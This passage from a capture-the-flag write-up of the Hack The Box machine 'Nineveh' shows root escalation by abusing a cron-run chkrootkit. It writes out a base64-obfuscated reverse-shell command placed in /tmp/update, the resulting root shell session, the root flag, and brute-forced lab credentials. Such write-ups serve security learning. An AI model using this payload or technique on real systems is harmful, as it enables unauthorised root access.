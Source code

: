 For, Exploiting this we simply need to create a file named `update` in the `/tmp` directory with malicious commands to execute. Now, As the cron is executing the `chkrootkit` command every 1 minute the box on executing the chkrootkit command will execute the `/tmp/update` and give us a reverse shell.
```python
amrois@nineveh:/tmp$ ls -l update 
-rwxrwxr-x 1 amrois amrois 78 Jul  1 15:09 update
amrois@nineveh:/tmp$ cat update 
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Lzg4ODggMD4mMQ== |base64 -d|bash
```
We get the root shell after a minute.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.5]─[~/htb/nineveh]
└──╼ # shelter rev bash
Gtk-Message: 01:40:19.338: Failed to load module "colorreload-gtk-module"
Gtk-Message: 01:40:19.339: Failed to load module "window-decorations-gtk-module"
[+] Copied reverseshell payload echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Lzg4ODggMD4mMQ== |base64 -d|bash
[+] Starting up Shell Handler...
Listening on 0.0.0.0 8888
Connection received on 10.10.10.43 49636
bash: cannot set terminal process group (30723): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## Getting the root flag
```python
root@nineveh:~# ls -l
total 12
-rw------- 1 root root  33 Jul  1 13:34 root.txt
-rw-r--r-- 1 root root  37 Dec 17  2020 test.txt
-rwx------ 1 root root 139 Jul  2  2017 vulnScan.sh
root@nineveh:~# cat root.txt 
ac1f0f740957faa143d2de15558c6827
```
# Credentials
|Credentials Location|Username|Password|Found From|
|--|--|--|--|
|`http://10.10.10.43/department/login.php`|admin|1q2w3e4r5t|Hydra bruteforce on the site|
|`https://10.10.10.43/db/index.php`|`No_Username`|password123|Hydra bruteforce on the phpliteadmin page|
